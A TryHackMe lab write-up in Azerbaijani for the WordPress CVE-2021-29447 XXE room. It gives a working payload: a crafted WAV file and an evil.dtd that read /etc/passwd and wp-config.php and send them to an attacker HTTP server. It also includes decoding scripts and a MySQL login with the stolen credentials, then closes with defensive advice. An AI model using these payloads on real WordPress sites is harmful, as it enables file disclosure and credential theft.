

# TryHackMe: WordPress CVE-2021-29447 Writeup

Bu writeup TryHackMe-dəki `Wordpress: CVE-2021-29447` otağı üçündür. Labda məqsəd WordPress Media Library-dəki XXE zəifliyini başa düşmək və ondan istifadə edərək serverdəki faylları oxumaqdır.

> Qeyd: Bu material yalnız TryHackMe kimi icazəli lab mühiti üçündür.

## Lab Məlumatları

| Sahə | Dəyər |
|---|---|
| Platforma | TryHackMe |
| Room | WordPress: CVE-2021-29447 |
| Target IP | `10.81.149.90` |
| Zəiflik | CVE-2021-29447 |
| Zəiflik növü | Authenticated XXE |
| Təsirlənən hissə | WordPress Media Library |
| Əsas təsir | Fayl oxuma, SSRF |

## 1. CVE-2021-29447 Nədir?

`CVE-2021-29447` WordPress Media Library-də olan XXE boşluğudur.

XXE açılışı:

```text
XML External Entity
```

Bu zəiflik o zaman yaranır ki, tətbiq XML məlumatını təhlükəsiz parse etmir və XML içində göstərilən xarici obyektləri oxumağa çalışır.

Bu labda WordPress audio faylın metadata hissəsini oxuyur. Xüsusi hazırlanmış `.wav` faylın içində XML payload yerləşdirilir. WordPress həmin faylı parse edəndə hücumçu serverdən fayl oxuda bilir.

## 2. Zəifliyin Şərtləri

Bu CVE hər WordPress-də avtomatik işləmir. Aşağıdakı şərtlər lazımdır:

| Şərt | İzah |
|---|---|
| WordPress versiyası | 5.6.x və ya 5.7-dən əvvəlki həssas versiyalar |
| PHP versiyası | PHP 8 |
| Giriş | WordPress-ə login olmaq lazımdır |
| İcazə | Media faylı upload etmək icazəsi lazımdır |

Labda verilən giriş məlumatları:

```text
Username: test-corp
Password: test
```

## 3. Təsir

Bu zəiflik uğurla işləsə, attacker aşağıdakı nəticələri ala bilər:

| Təsir | İzah |
|---|---|
| Arbitrary File Disclosure | Serverdəki faylları oxumaq |
| SSRF | Server adından daxili/xarici URL-lərə sorğu göndərmək |
| Credential Disclosure | `wp-config.php` içindən DB məlumatlarını oxumaq |

Ən vacib hədəf fayl:

```text
/var/www/html/wp-config.php
```

Çünki bu faylda WordPress database adı, username və password olur.

## 4. Recon

Əvvəl target maşını skan edirik:

```bash
nmap -sC -sV -p- 10.81.149.90
```

Səndə görünən nəticə:

```text
22/tcp   open  ssh
80/tcp   open  http    Apache httpd 2.4.18
3306/tcp open  mysql   MySQL 5.7.33
```

WordPress versiyası:

```text
WordPress 5.6.2
```

Bu vacibdir, çünki lab CVE-2021-29447 üçün uyğun WordPress versiyası verir.

## 5. WPScan ilə Enumeration

WordPress haqqında daha çox məlumat üçün:

```bash
wpscan --url http://10.81.149.90 --enumerate u,p,t
```

Səndə çıxan maraqlı nəticələr:

```text
WordPress version: 5.6.2
Theme: twentytwentyone
Plugin: wp-security-hardening
Upload directory listing enabled
User: Corporation Test
```

Login səhifəsi:

```text
http://10.81.149.90/wp-login.php
```

Labda istifadə olunan credential:

```text
test-corp:test
```

Bu hesabla WordPress panelə daxil oluruq.

## 6. Media Upload İcazəsini Yoxlamaq

WordPress panelə girdikdən sonra:

```text
Media → Add New
```

və ya türk interfeysdə:

```text
Ortam → Yeni ekle
```

Əgər fayl yükləmə hissəsi görünürsə, deməli user-in media upload icazəsi var. Bu CVE üçün əsas şərtdir.

## 7. Kali IP-ni Müəyyən Etmək

Payload içində WordPress serverinin geri sorğu göndərəcəyi IP yazılmalıdır.

Əgər TryHackMe VPN istifadə edirsənsə, adətən `tun0` IP lazımdır:

```bash
ip a | grep tun0 -A 3
```

Səndə lab zamanı server artıq bu IP-yə sorğu göndərdi:

```text
192.168.128.193
```

Bu writeup-da nümunə üçün bu IP istifadə olunur:

```text
Attacker IP: 192.168.128.193
Port: 8000
DTD file: evil.dtd
```

## 8. İş Qovluğu Yaratmaq

Kali-də:

```bash
mkdir wp-xxe
cd wp-xxe
```

## 9. Zərərli WAV Faylı Yaratmaq

Bu fayl WordPress Media Library-ə upload ediləcək.

```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://192.168.128.193:8000/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

Burada:

| Hissə | İzah |
|---|---|
| `payload.wav` | WordPress-ə upload ediləcək fayl |
| `192.168.128.193` | Sənin Kali/attacker IP-n |
| `8000` | Lokal HTTP server portu |
| `evil.dtd` | WordPress serverinin oxuyacağı DTD faylı |

## 10. DTD Faylı Yaratmaq

İndi `evil.dtd` faylını yaradırıq:

```bash
nano evil.dtd
```

İçinə bunu yazırıq:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.128.193:8000/?p=%file;'>" >
```

Saxlamaq üçün:

```text
CTRL + O
Enter
CTRL + X
```

Bu DTD faylı WordPress serverinə deyir:

```text
/etc/passwd faylını oxu,
zlib ilə sıx,
base64 ilə encode et,
sonra mənim Kali serverimə ?p= içində göndər.
```

## 11. HTTP Server Açmaq

`evil.dtd` və `payload.wav` olan qovluqda HTTP server açırıq:

```bash
php -S 0.0.0.0:8000
```

Bu terminal açıq qalmalıdır.

Əgər uğurludursa, belə görünür:

```text
PHP Development Server started
```

## 12. Payload Upload Etmək

WordPress paneldə:

```text
Media → Add New → payload.wav upload
```

Türkcə interfeysdə:

```text
Ortam → Yeni ekle → payload.wav yükle
```

Upload zamanı Kali terminalında belə log gəlməlidir:

```text
GET /evil.dtd
GET /?p=UZUN_BASE64_DATA
```

Səndə belə gəlmişdi:

```text
10.81.149.90 [200]: GET /evil.dtd
10.81.149.90 [404]: GET /?p=nVZtT+NGEP5c...
```

`404` problem deyil. Əsas odur ki, `?p=` içində data gəlib.

## 13. Gələn Datani Decode Etmək

Əgər DTD-də `zlib.deflate` istifadə etmisənsə, təkcə `base64 -d` kifayət etmir. Əvvəl base64 decode, sonra zlib decompress lazımdır.

Ən rahat yol Python ilə:

```bash
python3 - <<'PY'
import base64, zlib

data = "BURAYA_P_PARAMETRINDEN_SONRAKI_UZUN_DATANI_YAZ"

decoded = base64.b64decode(data)
print(zlib.decompress(decoded).decode(errors="ignore"))
PY
```

`BURAYA...` yerinə Kali HTTP server logunda `?p=`-dən sonrakı uzun hissəni yazırsan.

Əgər decode uğurlu olsa, `/etc/passwd` məzmunu görünəcək.

## 14. Sadə Base64 Variantı

Əgər zlib ilə əziyyət çəkmək istəmirsənsə, DTD-ni sadə base64 ilə də qura bilərsən:

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.128.193:8000/?p=%file;'>" >
```

Bu halda decode daha sadədir:

```bash
echo 'BASE64_DATA' | base64 -d
```

Amma uzun fayllarda zlib variantı daha stabil ola bilər.

## 15. wp-config.php Oxumaq

Labın əsas məqsədi WordPress konfiqurasiya faylını oxumaqdır. Bunun üçün `evil.dtd` içində `/etc/passwd` yerini dəyişirik.

```bash
nano evil.dtd
```

İçini belə et:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.128.193:8000/?p=%file;'>" >
```

Sonra WordPress-də `payload.wav` faylını yenidən upload et.

Kali server logunda yenə belə data gələcək:

```text
GET /?p=UZUN_BASE64_DATA
```

Onu yenə Python ilə decode et:

```bash
python3 - <<'PY'
import base64, zlib

data = "BURAYA_YENI_P_DATASINI_YAZ"

decoded = base64.b64decode(data)
print(zlib.decompress(decoded).decode(errors="ignore"))
PY
```

## 16. wp-config.php İçində Nə Axtarılır?

Decode nəticəsində `wp-config.php` görünəndə bunları axtar:

```php
define('DB_NAME', '...');
define('DB_USER', '...');
define('DB_PASSWORD', '...');
define('DB_HOST', '...');
```

TryHackMe suallarına cavablar buradan çıxır.

Məsələn sual:

```text
#1-in nəticələrinə əsasən, WordPress üçün verilənlər bazasının adı nədir?
```

Cavab `DB_NAME` dəyəridir.

Sual:

```text
#1-in nəticələrinə əsasən, hansı credential-lar tapıldı?
```

Cavab `DB_USER` və `DB_PASSWORD` dəyərləridir.

## 17. MySQL Portu

Skan nəticəsində MySQL portu da açıq idi:

```text
3306/tcp open mysql MySQL 5.7.33
```

Əgər `wp-config.php` içindən DB credential tapılırsa, MySQL-ə qoşulmaq olar:

```bash
mysql -h 10.81.149.90 -u DB_USER -p
```

Parol soruşanda `DB_PASSWORD` yazılır.

Daxil olduqdan sonra:

```sql
SHOW DATABASES;
USE DB_NAME;
SHOW TABLES;
```

Bu hissə lab sualından asılıdır. Əgər suallar yalnız `wp-config.php` məlumatları istəyirsə, MySQL-ə girmək şərt olmaya bilər.

## 18. Komandaların Qısa Siyahısı

```bash
nmap -sC -sV -p- 10.81.149.90
wpscan --url http://10.81.149.90 --enumerate u,p,t
mkdir wp-xxe
cd wp-xxe
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://192.168.128.193:8000/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
nano evil.dtd
php -S 0.0.0.0:8000
```

`evil.dtd` for `/etc/passwd`:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.128.193:8000/?p=%file;'>" >
```

`evil.dtd` for `wp-config.php`:

```xml
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/html/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://192.168.128.193:8000/?p=%file;'>" >
```

Decode:

```bash
python3 - <<'PY'
import base64, zlib
data = "BASE64_DATA"
print(zlib.decompress(base64.b64decode(data)).decode(errors="ignore"))
PY
```

## 19. Hücum Zənciri



## 20. Müdafiə Tövsiyələri

Real sistemlərdə bu zəifliyin qarşısını almaq üçün:

- WordPress-i `5.7.1` və ya daha yeni versiyaya yenilə.
- PHP və bütün plugin/theme-ləri aktual saxla.
- Media upload icazəsini yalnız ehtiyacı olan istifadəçilərə ver.
- XML external entity parsing-i təhlükəsiz konfiqurasiya et.
- `wp-config.php` kimi həssas faylların icazələrini düzgün qur.
- Web serverin outbound sorğularını monitorinq et.
- Zəif parollardan istifadə etmə.

## Mənbələr

- TryHackMe room: https://tryhackme.com/room/wordpresscve202129447
- NVD CVE detail: https://nvd.nist.gov/vuln/detail/CVE-2021-29447
- SonarSource technical analysis: https://www.sonarsource.com/blog/wordpress-xxe-security-vulnerability/
- WPScan vulnerability info: https://wpscan.com/vulnerability/858ecf4a-7940-4ed4-9782-f9a6866f57f0

## Nəticə

Bu lab göstərir ki, zəif konfiqurasiya olunmuş XML parsing və media upload icazəsi birlikdə ciddi risk yarada bilər. Burada aşağı səlahiyyətli WordPress user zərərli `.wav` faylı upload edərək serverdən fayl oxuya bilir. Ən kritik nəticə `wp-config.php` faylından database credential-ların əldə edilməsidir.

